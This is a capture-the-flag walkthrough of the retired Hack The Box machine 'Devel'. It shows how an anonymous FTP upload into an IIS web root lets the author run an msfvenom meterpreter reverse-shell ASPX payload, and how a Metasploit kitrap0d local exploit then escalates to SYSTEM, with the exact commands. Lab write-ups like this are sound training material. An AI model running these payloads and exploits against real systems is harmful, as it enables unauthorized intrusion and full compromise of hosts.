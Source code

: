 # Devel

This is the write-up for the box Devel that got retired at the 14th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.5    devel.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/devel.nmap 10.10.10.5
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

As anonymous login is allowed we will look through the FTP service where we find **welcome.png** and **iisstart.htm**.

## Checking HTTP (Port 80)

If we look at the image on web page we see it is called **welcome.png** which means that **iisstart.htm** is the index file and thus both services have the same root.
So when we upload something on the FTP server we can access it on the web server, too.

As this is IIS 7.5 this supports ASP and ASPX files that we will use to execute code.

### Getting a reverse shell

We will create a payload with **msfvenom** and upload the _shell.aspx_ file to the FTP server.
```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f aspx -o shell.aspx
```

Now we can load the **Metasploit Framework** and can set up our listener:
```markdown
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.23
run
```

After starting this, it will wait for a connection. Browsing to _hxxp://10.10.10.5/shell.aspx_ activates the listener and we get a meterpreter session on the box.
Our user is _IIS Apppool\Web_ and we want to escalate our privileges by exploiting any vulnerabilities.

To identify vulnerabilites we will use the Metasploit module **post/multi/recon/local_exploit_suggester**:
```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

This shows us different modules to which the target is vulnerable to. In this case I am choosing **exploit/windows/local/ms10_015_kitrap0d**:
```markdown
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set LHOST 10.10.14.23
set LPORT 4445
run
```

When this finishes we get a new meterpreter session with elevated privileges. We are **NT Authority\SYSTEM** and can read all flags!

